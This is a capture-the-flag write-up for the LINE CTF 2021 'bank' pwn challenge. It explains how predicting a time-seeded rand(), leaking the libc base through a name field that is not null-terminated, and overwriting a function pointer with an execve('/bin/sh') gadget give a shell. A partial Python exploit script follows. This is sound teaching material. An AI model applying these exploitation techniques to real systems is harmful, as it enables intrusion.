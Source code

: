 # LINE CTF 2021 - Pwn - bank

## Solution

When the VIP flag of User is set, the amount that can be written to memo increases, and the function pointer at the end of the structure can be overwritten.
In addition, a dedicated choice is displayed in the menu, and this function pointer can be called.
To set the VIP flag, we need to hold 200,000,000 currencies and make 0x14 remittances.

We can win lottery to earn currency.
The lottery winning number is generated using `rand()`, but before that the seed is initialized with `srand(time(NULL))`.
Therefore, if the time of the server is predicted correctly, the random numbers generated can also be predicted, and it will be possible to win with high probability.

Also, if we win the first prize, we will be asked to enter your name and address, but since it is not null-terminated, the value on the stack can be displayed. The base address of libc can be leaked from here.

After becoming a VIP, rewrite the function pointer to the next One Gadget.
```
0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
By specifying an account with index 0 and 0 currency in VIP Transfer, the condition of One Gadget can be satisfied, so shell starts.

## Exploit Code

(The code below is an excerpt of only the important part of the exploit and cannot be executed by itself)

```python
def select(cmd):
    sc.after("Menu")
    for m in re.finditer(R"(\d)\.([^\d]+[a-zA-Z])", sc.recv_before("Input").decode()):
        if cmd == m[2]:
            sc.sendline(m[1])
            break
    else:
        raise ValueError(f"Invalid option: {cmd}")

def select_user(num):
    sc.after("Input :").sendline(str(num))

select("Add User")
sc.after("ID").sendline("0")
sc.after("Password").sendline("0")

select("Login")
sc.after("ID").sendline("0")
sc.after("Password").sendline("0")

select("Loan")
acc0_number = sc.recv_regex(R"Account number : (\d+)\s+")[1]
acc_number = sc.recv_regex(R"Account number : (\d+)\s+Amounts : -100")[1]

def win_lottery():
    import ctypes
    libc = ctypes.CDLL("libc.so.6", use_errno=True)
    def predict(t):
        libc.srand(t)
        nums = []
        while True:
            n = libc.rand() % 0x25 + 1
            if n in nums:
                continue
            nums.append(n)
            if len(nums) >= 7:
                break
        return nums
    
    t = libc.time(0)
    
    sc.after("Enter numbers:").sendline("\n".join(str(x) for x in predict(t)))
    sc.after("Name").sendline("AAAAAAAA")
    sc.after("Address").sendline("a")

select("Lottery")
win_lottery()

leak = bytearray(sc.after("Name : AAAAAAAA").recv(6))
leak[0] = 0x13

remote_libc_base = u2i(leak) - (0x7ffff7e69013 - 0x7ffff7dd5000)
print(f"{remote_libc_base=:#x}")

for i in range(0x14):
    select("Transfer")
    sc.after("transfer.").sendline(acc_number)
    sc.after("transfer.").sendline("10000")

select("User")
select_user("2")
sc.after("Input").sendline(b"*" * 56 + u64(remote_libc_base + 0xe6e79))
select_user("0")

select("VIP")
sc.after("transfer.").sendline(acc0_number)
sc.after("transfer.").sendline("0")

time.sleep(1)
sc.sendline("ls; cat flag*")
```